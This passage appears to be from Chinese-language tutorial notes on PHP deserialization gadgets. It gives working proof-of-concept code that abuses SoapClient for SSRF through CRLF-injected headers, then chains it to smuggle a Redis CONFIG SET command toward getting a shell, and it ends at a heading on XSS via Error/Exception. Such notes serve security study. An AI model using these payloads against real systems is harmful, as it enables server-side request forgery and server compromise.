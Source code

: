 其类摘要可见[PHP: SoapClient - Manual](https://www.php.net/manual/zh/class.soapclient.php)。

调用其`__call`方法时，可以发送HTTP或者HTTPS请求，从而造成SSRF。

其POC如下：

```php
<?php
$target = 'http://127.0.0.1:12345';
$post_string = 'a=b&flag=aaa';
$headers = array(
    'X-Forwarded-For: 127.0.0.1',
    'Cookie: xxxx=1234'
);
$b = new SoapClient(null, array('location' => $target, 'user_agent' => 'wupco^^Content-Type: application/x-www-form-urlencoded^^' . join('^^', $headers) . '^^Content-Length: ' . (string)strlen($post_string) . '^^^^' . $post_string, 'uri'      => "aaab"));

$aaa = serialize($b);
$aaa = str_replace('^^', '%0d%0a', $aaa);
$aaa = str_replace('&', '%26', $aaa);

unserialize(urldecode($aaa))->a();
```

可以看到NC接受到的数据如下：

![image-20220516164609221](./image-20220516164609221.png)

这一个的SSRF只能使用HTTP协议，因此在实战中可能用处不大，但是如果HTTP头部存在CRLF漏洞的话，可以利用该漏洞去访问Redis从而GetShell。

如下面的代码：

```php
$poc = "CONFIG SET dir /root/";
$target = 'http://127.0.0.1:12345';

$soap = new SoapClient(null, array('location' => $target, 'uri' => 'hello^^' . $poc . '^^hello'));

$ser_soap = serialize($soap);
$ser_soap = str_replace('^^', "\n\r", $ser_soap);

unserialize($ser_soap)->hello();
```

可以得到：

![image-20220516165907038](./image-20220516165907038.png)

##### Error/Exception

Error是一个内置类，在PHP7环境下可能导致XSS，因为有一个内置的`__toString`方法

Exception类的原理与Error类一样，但是在PHP5中适用。

例如Error类的利用：
